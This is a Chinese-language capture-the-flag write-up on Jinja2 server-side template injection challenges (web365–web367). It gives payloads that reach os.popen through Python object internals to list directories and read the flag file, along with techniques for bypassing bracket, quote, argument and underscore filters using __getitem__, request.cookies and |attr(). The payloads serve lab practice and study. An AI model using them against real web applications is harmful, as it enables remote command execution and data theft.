 `__getitem__`绕过中括号`[`过滤：

```
{{x.__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(132).__init__.__globals__.popen('ls /').read()}}
```

`request对象`绕过引号`''`、`""`过滤，`cookie`绕过`args`过滤

```
{{x.__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(132).__init__.__globals__.popen(request.cookies.x).read()}}

Cookie传参：x=ls /
```

成功进行命令执行后，改cookie传参：

```
x=cat /flag
```

![image-20240304193654541](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240304193654541.png)

### [web366]过滤''、""、[、args、_

![image-20240304194812959](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240304194812959.png)

在web366 payload基础上，进行`_`绕过

```
{{x.__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(132).__init__.__globals__.popen(request.cookies.x).read()}}
```

`|attr()`+`request对象`绕过对下划线的过滤

```
""|attr("__class__")
相当于
"".__class__
```

```
{{x|attr(request.cookies.x1)|attr(request.cookies.x2)|attr(request.cookies.x3)(0)|attr(request.cookies.x4)()|attr(request.cookies.x5)(132)|attr(request.cookies.x6)|attr(request.cookies.x7).popen(request.cookies.x8).read()}}

Cookie传参：
x1=__class__;x2=__bases__;x3=__getitem__;x4=__subclasses__;x5=__getitem__;x6=__init__;x7=__globals__;x8=tac /f*
```

没通......

### [web367]过滤''、""、[、args、_、os

通过cookie传os
